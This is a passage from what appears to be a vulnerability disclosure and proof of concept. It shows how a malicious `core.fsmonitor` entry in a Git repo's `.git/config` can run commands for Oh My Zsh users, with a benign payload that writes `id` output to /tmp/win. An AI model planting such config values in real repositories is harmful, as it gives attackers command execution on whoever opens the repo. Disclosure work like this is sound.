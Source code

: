 ```plain
Successfully built b86450559d44
Successfully tagged justinsteven/oh-my-zsh:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/oh-my-zsh zsh

➜  / omz update
Updating Oh My Zsh
From https://github.com/ohmyzsh/ohmyzsh
 * branch            master     -> FETCH_HEAD
Current branch master is up to date.
         __                                     __
  ____  / /_     ____ ___  __  __   ____  _____/ /_
 / __ \/ __ \   / __ `__ \/ / / /  /_  / / ___/ __ \
/ /_/ / / / /  / / / / / / /_/ /    / /_(__  ) / / /
\____/_/ /_/  /_/ /_/ /_/\__, /    /___/____/_/ /_/
                        /____/

Oh My Zsh is already at the latest version.
To keep up with the latest news and updates, follow us on Twitter: https://twitter.com/ohmyzsh
Want to get involved in the community? Join our Discord: https://discord.gg/ohmyzsh
Get your Oh My Zsh swag at: https://shop.planetargon.com/collections/oh-my-zsh

➜  / git -C ~/.oh-my-zsh log -n1 | cat
commit d9ad99531f74df8b0d6622feeab5e253528b43d0
Author: Žiga Šebenik <sebenik@users.noreply.github.com>
Date:   Fri Jul 23 12:39:51 2021 +0200

    feat(plugins): add fnm plugin (#9864)
    
    Co-authored-by: Ziga Sebenik <ziga.sebenik@oryxgaming.com>
```

Create an empty Git repo:

```plain
➜  / cd $(mktemp -d)

➜  tmp.ZfzZ5FG196 mkdir poc

➜  tmp.ZfzZ5FG196 git -C poc init
Initialized empty Git repository in /tmp/tmp.ZfzZ5FG196/poc/.git/

➜  tmp.ZfzZ5FG196
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
➜  tmp.ZfzZ5FG196 echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

➜  tmp.ZfzZ5FG196 cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```
